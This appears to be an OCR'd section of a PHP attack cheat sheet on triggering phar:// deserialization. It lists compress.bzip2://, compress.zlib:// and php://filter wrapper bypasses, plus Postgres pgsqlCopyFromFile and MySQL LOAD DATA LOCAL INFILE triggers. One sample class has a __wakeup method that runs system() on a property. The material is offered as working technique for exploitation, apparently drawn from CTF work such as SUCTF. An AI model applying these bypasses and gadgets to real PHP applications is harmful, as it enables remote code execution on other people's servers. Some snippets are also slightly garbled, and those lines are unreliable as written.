 ```php
// Bzip / Gzip When the environment restricts the phar cannot appear in the previous characters. You can use compress.bzip2:// and compress.zlib:// to bypass it
$z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
$z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';

//Combined with other protocols: (SUCTF)
//https://www.xctf.org.cn/library/details/17e9b70557d94b168c3e5d1e7d4ce78f475de26d/
//When the environment restricts the phar to not appear in the previous characters, it can also be used in conjunction with other protocols.
//php://filter/read=convert.base64-encode/resource=phar://phar.phar

//Postgres pgsqlCopyToFile and pg_trace can also be used, and the writing function of pg is required to enable.
<?php
	$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
	@$pdo->pgsqlCopyFromFile('aa', 'phar://phar.phar/aa');
?>
    
// Mysql
//LOAD DATA LOCAL INFILE will also trigger this php_stream_open_wrapper
//Configure mysqld:
//[mysqld]
//local-infile=1
//secure_file_priv=""
    
<?php
class A {
    public $s = '';
    public function __wakeup () {
        system($this->s);
    }
}
$m = mysqli_init();
mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
$s = mysqli_real_connect($m,
'localhost', 'root', 'root', 'testtable', 3306);
$p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a LINES TERMINATED BY \'\r\n\' IGNORE 1 LINES;');
?>

```
## Bypass method

When the environment restricts the phar to appear in the previous characters, you can use compress.bzip2:// and compress.zlib:// to bypass it, etc.

```php
compress.bzip://phar:///test.phar/test.txt
compress.bzip2://phar://test.phar/test.txt
compress.zlib://phar:///home/sx/test.phar/test.txt
php://filter/resource=phar:///test.phar/test.txt
```
